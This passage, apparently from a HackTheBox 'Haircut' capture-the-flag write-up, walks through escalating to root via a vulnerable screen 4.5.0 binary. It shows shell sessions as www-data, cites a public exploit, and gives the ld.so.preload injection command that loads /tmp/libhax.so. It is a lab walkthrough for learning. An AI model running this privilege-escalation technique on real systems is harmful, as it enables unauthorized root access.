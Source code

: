 Trying to execute ```/usr/bin/screen-4.5.0 -x root/root```, we realize that we are unable to spawn another screen session with root privileges due to missing /tmp/screens/S-root

```
www-data@haircut:/tmp$ /usr/bin/screen-4.5.0 -x root/root
/usr/bin/screen-4.5.0 -x root/root
Cannot access /tmp/screens/S-root: No such file or directory
```

This is mainly due to the fact that there are no sockets that is being created for www-data

```
www-data@haircut:/$ /usr/bin/screen-4.5.0 -list        
/usr/bin/screen-4.5.0 -list
No Sockets found in /tmp/screens/S-www-data.
```

Looking at [exploitdb](https://www.exploit-db.com/exploits/41154), we are able to find a script for privilege escalation on screen 4.5.0. However, we are unable to execute the script successfully for privilege escalation.

To continue with the exploit, we will break down the exploit script into various portions.
![Privilege Escalation with screen](https://github.com/joelczk/writeups/blob/main/HTB/Images/Haircut/pe_script.png)

First, we will first compile the binaries on our local machine and transfer it to our /tmp directory on the server.

Afterwhich, we would set umask and execute the screen-4.5.0 binary

```
www-data@haircut:/etc$ umask 000
umask 000
www-data@haircut:/etc$ screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" 
screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" 
```
